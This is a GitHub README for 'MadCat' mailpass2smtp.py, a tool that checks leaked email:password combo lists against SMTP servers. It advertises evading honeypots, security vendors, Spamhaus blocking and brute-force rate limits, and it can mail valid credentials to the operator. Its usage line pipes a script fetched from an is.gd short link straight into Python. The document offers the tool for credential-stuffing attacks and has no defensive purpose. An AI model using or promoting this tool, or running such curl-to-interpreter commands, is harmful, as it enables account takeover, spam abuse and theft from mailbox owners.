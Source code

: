 # mailpass2smtp.py - MadCat proxyless mail:pass and SMTP bruter/cracker/checker
![image](https://user-images.githubusercontent.com/1212294/193923021-dea15258-d74f-43e7-aa2e-4d33b89704a4.png)

SMTP checker, that takes list, containing emails & passwords, in any order and in any format, extract email & password, recover connection params and trying to login with these credentials.
## Features
- __don't require proxy lists__, at all
- takes as input literaly anything - __csv lists, sql dumps, json exports, text with any garbage__ inside. Accepting files up to 100Gb in size, still keeping memory footprint low.
- detects and skips __60+ topmost known honeypots__ and __80+% of unknown honeypots__, keeping you away from abuse reports.
- skips emails, hosted by all known security vendors (like __proofpoint, perimeterwatch, securence, techtarget, cisco__ etc.), to keep you away from abuses.
- __prefering ipv6__ over ipv4 to evade spam-house ip blocking.
- trying __qa-__ nodes first, where bruteforse protection is often disabled.
- trying to connect to __different geo-separated host nodes__ of mail servers in balancer pool, if any.
- custom DNS resolver, to connect to __different ip every time__. To evade bruteforse protection.
- __trying neighbor ips__, if server on current ip rate-limiting us.
- skips email providers, where login:password authorization (unsafe apps) is desabled by default (like mail.ru, gmail etc.)
- automaticaly __adjusts ulimit__ values, to keep you runnig as fast as possible.
- automatical threads count balancing.
- can email you with valid credentials, if you provide an email, for further inbox sorting.
- can probe around __~150 credential pairs per second__ (~300-500 in "rage" mode)
- you can resume scan from any line you want

## Setup
All you need is __python3__ and __psutil & dnspython__ modules installed (script will try to install missing modules by itself, anyway).
On CentOS you may need to install missing modules by hand:
```
sudo yum install python-devel
sudo yum install python-requests
sudo yum install python-psutil
sudo yum install python-dns
```
## Usage
```
python3 <(curl -slkSL is.gd/madcatsmtp) list.txt [verify_email@example.com] [ignored,email,domains] [start_from_line] [rage]
```
where:
- __list.txt__ is path to your combo list, or dump, or csv etc.
- __verify_email@example.com__ is email, where to mail valid results (optional).
- __ignored,email,domains__ is a comma-separated list of skipped email providers in addition to built-in one (optional).
- __start_from_line__ is just a line number to start from, if any (optional).
- __rage__ is a keyword, by adding which you will increase threads number from 300 to 600, which in case of small server will cause instabilities (optional).

\*good credential pairs will be saved to __original_file_name__\_smtp.txt.

Or just:
```
python3 <(curl -slkSL is.gd/madcatsmtp)
```
and you will be prompted for missing parameters.


Good luck.

